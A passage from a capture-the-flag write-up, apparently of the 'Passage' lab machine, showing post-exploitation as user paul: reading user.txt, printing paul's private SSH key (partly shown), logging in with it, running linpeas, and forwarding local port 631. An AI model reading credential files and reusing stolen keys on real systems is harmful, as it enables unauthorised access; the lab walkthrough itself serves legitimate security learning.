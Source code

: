 
# Shell as paul

First thing I did was go to paul's home directory and see what was there. Here I found the user.txt.

```sh
paul@passage:~$ cat user.txt
cat user.txt
e9786632ff09158e300cef3d1f565922
```


I noticed there was a .ssh folder and I grabbed paul's private key.

```sh
paul@passage:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
+L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
.....
-----END RSA PRIVATE KEY-----
```


I then ran linpeas again as paul to see if I got anything new. I also now had persistent access as paul via SSH.

```sh
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$chmod  600 paul_id 
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$ssh paul@10.10.10.206 -i paul_id 
The authenticity of host '10.10.10.206 (10.10.10.206)' can't be established.
ECDSA key fingerprint is SHA256:oRyj2rNWOCrVh9SCgFGamjppmxqJUlGgvI4JSVG75xg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.206' (ECDSA) to the list of known hosts.
paul@passage:~$ 
```


Something that stood out to me before, but I was unable to port forward at the time, was that port 631 is listening locally.


```sh
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      - 
```

I used SSH to portward 127.0.0.1:631 on 10.10.10.206 to my port 8000.
